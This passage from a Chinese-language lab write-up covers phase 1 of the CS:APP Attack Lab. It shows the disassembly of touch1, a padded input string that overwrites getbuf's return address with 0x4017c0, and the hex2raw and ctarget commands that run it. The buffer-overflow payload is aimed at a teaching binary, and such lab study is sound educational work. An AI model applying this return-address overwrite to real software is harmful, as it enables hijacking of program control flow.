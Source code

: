 我们可以看到，`getbuf` 将 `%rsp` 移动了 `0x28` 也就是 40 字节。这也就意味着，在往上 4 个字节，就是返回到 `test` 的返回地址。所以，我们就可以利用缓冲区溢出将返回地址修改掉。

现在我们看看 `touch1` 在哪里：

```
00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

可以看到 `touch1` 的开始地址在 `0x004017c0`，所以我们输入的字符串可以是

```
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00
c0 17 40 00
```

然后，我们将这个字符文件转换为字节码 `./hex2raw < touch1.txt > touch1_r.txt`，然后执行 `./ctarget -q -i touch1_r.txt`:

![Screen Shot 2017-05-14 at 20.58.30](/images/2017-7-9/Screen%20Shot%202017-05-14%20at%2020.58.30.png)

通过第一关，我们就学习了通过使用缓冲区溢出来调用另外的函数。

## 第二阶段

